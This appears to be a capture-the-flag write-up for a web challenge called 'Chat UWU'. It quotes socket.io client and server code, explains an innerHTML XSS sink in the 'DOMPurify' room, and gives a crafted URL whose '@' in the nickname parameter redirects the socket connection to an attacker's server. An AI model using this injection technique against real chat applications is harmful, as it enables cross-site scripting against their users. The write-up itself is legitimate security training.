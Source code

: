 ### Chat UWU

## Walkthrough
- When we open ndex.js, we observe that int he below piece of code, if the chat room is 'DOMPurify' and msg.isHtml is true,
  the message is treated as HTML and inserted using innerHTML which makes it vulnerable to xss
```
socket.on('msg', function (msg) {
        let item = document.createElement('li'),
            msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
        room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
        messages.appendChild(item);
        window.scrollTo(0, document.body.scrollHeight);
    });
```
- Here comes the first problem that is the message and nickname are truncated and then purified,
 so the truncation itself does not allow us to inject anything that DOMPurify would normally catch

- Secondly isHtml is set to true if room is set to Dompurify.
```
socket.on('msg', msg => {
        msg.from = String(msg.from).substr(0, 16)
        msg.text = String(msg.text).substr(0, 140)
        if (room === 'DOMPurify') {
            io.to(room).emit('msg', {
                from: DOMPurify.sanitize(msg.from),
                text: DOMPurify.sanitize(msg.text),
                isHtml: true
            });
        } else {
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: false
            });
        }
    });
```

## Solution

- Having an @ in our parameter. Everything before the @ is considered to be the username on the domain. http://127.0.0.1:58000/?nickname=@example.com/&room=DOMPurify is parsed as the domain example.com/&room=DOMPurify for the socket connection. At the same time, the get parameter room=DOMPurify allows us to still get into the innerHTML region in the client-side line of code

This makes socket.io connect to the attackers server while using room=DOMPurify as query parameetr.
